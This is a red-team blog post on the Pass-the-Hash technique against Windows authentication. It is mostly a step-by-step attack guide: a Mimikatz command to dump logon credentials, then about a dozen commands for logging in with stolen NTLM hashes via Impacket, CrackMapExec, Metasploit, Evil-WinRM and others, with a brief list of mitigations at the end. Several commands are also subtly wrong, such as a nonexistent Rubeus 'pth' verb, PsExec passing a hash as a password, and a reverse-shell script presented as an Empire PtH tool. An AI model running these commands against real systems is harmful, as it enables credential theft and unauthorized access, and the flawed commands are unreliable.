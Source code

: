 ```yaml
---
layout: blog
title: "Pass-the-Hash Attack: An In-Depth Look with Examples and Commands"
tags: redteaming c2
comments: true
date: 2023-04-08
---
```


# Pass-the-Hash Attack: An In-Depth Look with Examples and Commands

Pass-the-Hash (PtH) is a well-known attack technique that targets Windows authentication systems. It enables attackers to use a user's password hash, instead of the plain-text password, to authenticate to network resources. In this blog post, we will dive into the details of this attack, discuss examples and commands, and provide a real-world attack scenario.

## Understanding Pass-the-Hash

Windows systems primarily use two types of authentication protocols: NTLM (NT LAN Manager) and Kerberos. Both protocols store password hashes, which are fixed-length representations of a user's password. When a user logs in, Windows checks the entered password's hash against the stored hash. If they match, the user is granted access.

In a PtH attack, the attacker captures a user's password hash and uses it to authenticate to network resources as the targeted user, without needing to know the plain-text password. This allows the attacker to bypass many security controls and gain unauthorized access to sensitive data.
<br/>
## How to Perform a Pass-the-Hash Attack

Here is a step-by-step guide to performing a PtH attack, including the tools and commands:

1. **Capture the password hash**: The first step is to obtain the target user's password hash. This can be done using various methods, such as dumping hashes from the Security Account Manager (SAM) database or extracting hashes from a system's memory using tools like Mimikatz.

Example command using Mimikatz:
```bash
mimikatz.exe privilege::debug sekurlsa::logonpasswords
```


<br/>
2. **Use the captured hash for authentication**: Once the password hash is obtained, the attacker can use it to authenticate to network resources. Tools like PsExec or CrackMapExec can be used to perform PtH attacks.

### For Kali Linux/Linux

+ **Impacket (pth-winexe)**
```bash
pth-winexe -U TARGET_DOMAIN/USER%NTLM_HASH //TARGET_IP cmd
```
+ **Impacket (secretsdump.py)**
```bash
python3 secretsdump.py -ntds TARGET_DOMAIN/USER:PASSWORD@TARGET_IP
```
+ **CrackMapExec**
```bash
crackmapexec smb TARGET_IP -u USER -H NTLM_HASH
```
+ **Metasploit Framework (auxiliary module: smb_login)**
```bash
msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS TARGET_IP
set SMBDomain TARGET_DOMAIN
set SMBUser USER
set SMBPass NTLM_HASH
run
```
+ **Evil-WinRM**
```bash
evil-winrm -i TARGET_IP -u USER --hash NTLM_HASH
```
+ **Wmiexec**
```bash
wmiexec.py -hashes LM_HASH:NTLM_HASH TARGET_DOMAIN/USER@TARGET_IP
```
+ **Smbexec**
```bash
smbexec.py -hashes LM_HASH:NTLM_HASH TARGET_DOMAIN/USER@TARGET_IP
```

### For Windows

+ **Mimikatz**
```bash
mimikatz.exe "sekurlsa::pth /user:USER /domain:TARGET_DOMAIN /ntlm:NTLM_HASH /run:cmd.exe" "exit"
```

+ **PowerShell Empire**
```bash
.\Invoke-PowerShellTcp.ps1 -Hash NTLM_HASH -Username USER -Domain TARGET_DOMAIN -IPAddress TARGET_IP
```

+ **PsExec**
```bash
psexec.exe \\TARGET_IP -u TARGET_DOMAIN\USER -p NTLM_HASH cmd.exe
```
+ **Rubeus**
```bash
Rubeus.exe pth /user:USER /domain:TARGET_DOMAIN /ntlm:NTLM_HASH /target:TARGET_IP
```


## Conclusion

Pass-the-Hash attacks are dangerous because they exploit inherent weaknesses in Windows authentication mechanisms. To defend against PtH attacks, organizations should adopt a multi-layered security approach, including:

- Implementing privileged access management (PAM)
- Regularly patching and updating software
- Using strong, unique passwords
- Enabling security features like Credential Guard
- Restricting the use of administrative accounts

Understanding how Pass-the-Hash attacks work, along with effective mitigation strategies, is essential to protect your organization from unauthorized access and data breaches.
